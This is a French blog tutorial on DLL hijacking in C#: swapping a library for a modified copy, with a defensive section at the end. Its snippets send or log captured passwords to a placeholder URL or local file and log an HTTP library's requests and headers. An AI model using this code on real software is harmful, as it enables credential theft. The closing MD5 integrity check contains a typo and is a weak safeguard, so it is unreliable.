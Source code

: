 ```yaml
---
title: "Pourquoi il faut sécuriser vos DLL P1"
date: 2021-10-25T12:00:00Z
description: "Voici comment Détourner une DLL C# Part1"
categories: ["articles"]
tags: ["reverse","tuto"]
keywords: ["tuto", "reverse", "dotnet", ".net","ctf","dll","hijacked","dll hijacking"]
---
```


## Introduction
Une DLL (Dynamic Link Library) est une bibliothèque logicielle qui permet le partage, par des programmes, de codes.
Pour résumer, c'est une bibliothèque avec plusieurs fonctions à l'intérieur. C'est très utile pour ne pas toujours coder la même chose.
On code une fois la DLL et on a plus qu'a appelé ses fonctions dans tous ses projets.
L'avantage du C# est qu'il existe un grand nombre de bibliothèques, et la plupart sont Open-Source, sur GitHub principalement

### DLL Hijacking
Tout le problème est que ces DLL sont vulnérables à toutes modifications extérieurs et peuvent mener à de gros soucis sur l'assembly attaqué.
Le but d'une Dll Hijacking est de remplacé la véritable bibliothèque par une dll modifiée portant le même nom. Il faut donc conserver toutes les fonctions présentes sur l'original et y rajouter votre code à l'intérieur.

*Exemple*:
*Imaginons une application qui gère nos mots de passes. L'application est très sécurisée et il semble impossible de retrouver le code source .*
*Malheureusement celle-ci ne vérifie pas l'intégrité de sa DLL qui chiffre les mot de passe .On peut donc modifier sa DLL comme ceci :*

```C#
public static void CHIFFREMENT (string motdepasse,string clé)
{
  Mon algorithme de chiffrement super sécurisée
}
```
**Devient :**

```C#
public static void CHIFFREMENT(string motdepasse,string clé)
{
  HttpClient client = new HttpClient()
  var postdata = new Dictionary<string, string>{{ "MDP_Volé", motdepasse },};
  client.PostAsync("https://MON-URL-Pour-VOLER-LE-MDP", new FormUrlEncodedContent(postdata));

  Mon algorithme de chiffrement super sécurisée
}
```
**ou :**

```C#
public static void CHIFFREMENT(string motdepasse,string clé)
{
  File.AppendAllText("stealed.txt", motdepasse + "\n");
  Mon algorithme de chiffrement super sécurisée
}
```
Il reste à re-compiler la DLL et à remplacer celle d'origne par la votre.

#### Un cas plus concret :

Prenons l'exemple de *[Leaf.Xnet](https://github.com/csharp-leaf/Leaf.xNet)*.  
Cette bibliothèque est très souvent utilisé car elle permet de faire des requêtes WEB rapidement est facilement en C#.
Regardons de plus prêt la fonction *Get (l. 872)*  

![Alt text](./img/hijacked.png "hijacked")

On enregistre les url appelés .
*Le code malveillant serait celui-ci*
````Csharp
       try
       {
              File.AppendAllText("RequestHijacked.txt", "GET // : URL --> " + address.ToString() + "\n");
       }
       catch (Exception ex)
       {
              Console.WriteLine("Hidjack Error : " + ex.Message);
       }
````
On pourrait aussi faire ca pour toutes les fonctions de requêtes , la fonction qui ajoute des Headers etc. ...

*(AddHeader l. 1658)*
```Csharp
       try
       {
           File.AppendAllText("RequestHijacked.txt", "HEADER // : name --> " + name.ToString());
           File.AppendAllText("RequestHijacked.txt", " : " + value.ToString() + "\n");
       }
       catch (Exception ex)
       {
            Console.WriteLine("Hidjack Error : " + ex.Message);
       }

```

Voici ma Dll [ma Dll Leaf.Xnet.dll](./files/Leaf.xNet.dll) 
Ainsi, on pourrait log toutes les requètes effectuées par notre application, même si l'application entière semble sécurisée.


### Comment faire si la DLL n'est pas visible/Open source.
Il est possible que l'assembly que vous visez soit packé . En lien avec l'article précédent , vous pouvez essayer de DUMP le processus quand il est lancé pour récupérer la DLL et le .exe séparément.  

Avec DNSpy, vous pouvez reconstruire un projet visual studio à partir d'un executable .NET
*(Vous devrez donc corriger les quelques erreurs de code pour la recompiler mais cella permet d'avoir un code source approximatif.)*

Pour créer le projet à partir de la DLL :
- Ouvrez votre DLL dans *DnSpy*
- Sélectionner la en cliquant dessus
- Cliquez sur *Fichier* puis *Exporter vers le Projet*

## Comment s'en protéger ?

La manière la plus simple est d'écrire dans le code du programme directement le Hash MD5 de la DLL.
On peut calculer un Hash pour chaque dépendance et ainsi vérifier l'intégrité d'une DLL :

```C#
  public static void checkDLL()
  {
    if (MD5("MADLL.dll") != "799EF18FFMA0E270CEFPA8194D19F8PM")
      Process.GetCurrentProcess().Kill();
  }

  public static string MD5(string path)
  {
    if (!File.Exists(path))
      return "empty";
    else
      {
        FileStream running = File.OpenRead(path);
        byte[] exeBytes = new byte[running.Length];
        unning.Read(exeBytes, 0, exeBytes.Length);
        running.Close();
        MD5CryptoServiceProvider md5 = new MD5CryptoServiceProvider();
        byte[] originalBytes = ASCIIEncoding.Default.GetBytes(ASCIIEncoding.ASCII.GetString(exeBytes));
        byte[] encodedBytes = md5.ComputeHash(originalBytes);
        return BitConverter.ToString(encodedBytes).Replace("-", "");
        }
  }
```
[Et voici mon programme qui renvoie le MD5 d'une DLL :](./files/GetHash.exe)
